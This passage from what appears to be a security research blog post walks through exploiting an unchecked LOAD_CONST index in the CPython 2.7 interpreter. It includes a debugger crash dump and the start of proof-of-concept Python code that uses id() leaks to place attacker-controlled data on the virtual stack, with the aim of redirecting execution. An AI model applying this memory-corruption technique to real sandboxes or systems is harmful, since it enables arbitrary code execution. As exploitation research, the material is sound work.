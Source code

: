 ..and as expected you get a fault (*oparg* is *edi*):

```text 
craaaaaaash
    (2058.2108): Access violation - code c0000005 (!!! second chance !!!)
    [...]
    eax=01cb1030 ebx=00000000 ecx=00000063 edx=00000046 esi=1e222c0c edi=beefdead
    eip=1e0ec5f7 esp=0027e7f8 ebp=0273a9f0 iopl=0         nv up ei ng nz na pe cy
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010287
    python27!PyEval_EvalFrameEx+0x347:
    1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch] ds:002b:fd8a8af0=????????
```

By the way, some readers might have caught the same type of bug in *LOAD_FAST* with the *fastlocals* array ; those readers are definitely right :).

# Walking through the PoC #
OK, so if you look only at the faulting instruction you could say that the bug is minor and we won't be able to turn it into something "useful". But the essential piece when you want to exploit a software is to actually completely understand how it works. Then you are more capable of turning bugs that seems useless into interesting primitives.

As we said several times, from Python code you can't really push any value you want onto the Python virtual stack, obviously. The machine is only dealing with Python objects. However, with this bug we can corrupt the virtual stack by pushing arbitrary data that we control. If you do that well, you can end up causing the Python VM to call whatever address you want. That's exactly what I did back when I wrote [python27_abuse_vm_to_execute_x86_code.py](https://github.com/0vercl0k/stuffz/blob/master/Python's%20internals/python27_abuse_vm_to_execute_x86_code.py).

In Python we are really lucky because we can control a lot of things in memory and we have natively a way to "leak" (I shouldn't call that a leak though because it's a feature) the address of a Python object with the function *id*. So basically we can do stuff, we can do it reliably and we can manage to not break the interpreter, like bosses.

## Pushing attacker-controlled data on the virtual stack ##
We control *oparg* and the content of the tuple *consts*. We can also find out the address of that tuple. So we can have a Python string object that stores an arbitrary value, let's say *0xdeadbeef* and it will be pushed on the virtual stack.

Let's do that in Python now:

```python 
Pushing controlled value on the virtual stack
    import opcode
    import types
    import struct
    
    def pshort(s):
        return struct.pack('<H', s)
    
    def a():
      pass
    
    consts = ()
    s = '\xef\xbe\xad\xde'
    address_s = id(s) + 20 # 20 is the offset of the array of byte we control in the string
    address_consts = id(consts)
    # python27!PyEval_EvalFrameEx+0x347:
    # 1e0ec5f7 8b74b80c        mov     esi,dword ptr [eax+edi*4+0Ch] ds:002b:fd8a8af0=????????
    offset = ((address_s - address_consts - 0xC) / 4) & 0xffffffff
    high = offset >> 16
    low =  offset & 0xffff
    print 'Consts tuple @%#.8x' % address_consts
    print 'Address of controled data @%#.8x' % address_s
    print 'Offset between const and our object: @%#.8x' % offset
```